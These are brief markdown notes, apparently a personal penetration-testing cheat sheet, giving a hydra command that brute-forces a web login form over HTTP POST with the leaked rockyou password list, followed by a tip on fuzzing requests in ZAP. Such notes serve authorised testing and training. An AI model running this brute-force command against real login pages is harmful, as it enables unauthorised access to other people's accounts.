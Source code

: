 # bruteforce via post request

rhost contains just the dns or ip. When the form isnt in the root path specify
the url befor *:username*. Text for failed login attempt can be set after
*:F*.

```bash
hydra -l <username> -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt "$rhost" http-post-form "/:username=^USER^&password=^PASS^:F=incorrect"
```

# use zap

Install fuzzer from Zap Marketplace. Right click request -> Attach -> Fuzz..

